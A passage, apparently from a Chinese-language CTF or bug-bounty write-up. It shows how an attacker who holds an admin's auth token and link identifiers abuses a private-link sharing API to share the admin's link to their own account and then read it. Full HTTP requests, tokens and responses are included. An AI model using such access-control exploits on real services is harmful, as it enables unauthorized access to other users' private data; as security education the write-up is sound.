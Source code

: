 **我找了 2 个小时才找到管理员的`device_id`，没找到。但是，我可以调用以下端点:**

1.  **共享链接**
2.  **与用户共享私人链接**

**我有管理员的`random_number`、`link_name`和`auth_token`，所以我把`test`分享给自己:**

```
POST /api/links/share/private HTTP/1.1
auth-token: 1.7974d396f5cfcdbe3433037c11e819ca
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 77
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"link_name":"test","random_number":493291123,"share_user_id": 6,"user_id":1}
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:03:05 GMT
Content-Type: application/json
Content-Length: 101
Connection: close{"code":200,"data":{"msg":"the user_id(6) can view the link by /api/link/preview/1/493291123/test"}}
```

**我通过我的`auth_token`看到了链接:**

```
GET /api/link/preview/1/493291123/test HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 0
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:05:50 GMT
Content-Type: application/json
Content-Length: 66
Connection: close{"code":200,"data":{"link":"[https://ShareL.tld/test_admin_link](https://ShareL.tld/test_admin_link)"}}
```
